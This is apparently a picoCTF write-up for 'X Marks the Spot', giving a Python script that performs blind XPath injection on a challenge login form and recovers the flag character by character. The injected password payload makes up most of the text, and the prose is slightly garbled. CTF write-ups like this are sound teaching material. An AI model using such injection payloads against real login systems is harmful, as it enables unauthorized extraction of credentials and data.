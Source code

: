 # X Marks the Spot

In this [video](https://www.youtube.com/watch?v=14eE7LSHlKc), explain how to make the code below and why it works. It is the same code in the video but with XPATH.

```python
import requests
import re

characters = '_abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789{}'
print(characters)

username = "admin"

url = 'http://mercury.picoctf.net:7029/'

session = requests.Session()

seen_password = 'picoCTF{'

while(True):
  for ch in characters:
    print('Trying password: ', seen_password + ch)

    password = "' or //*[contains(., '" + seen_password + ch + "')] or '1'='2"
    response = session.post(url, data={ "name": username, "pass": password })

    content = response.text

    if "on the right path" in content:
      print('Yes!')
      seen_password = seen_password + ch
      break
```
After running this into a webshell, you will receive bits and pieces of the flag like shown below. (not sometimes there may be errors if you use Python 1):

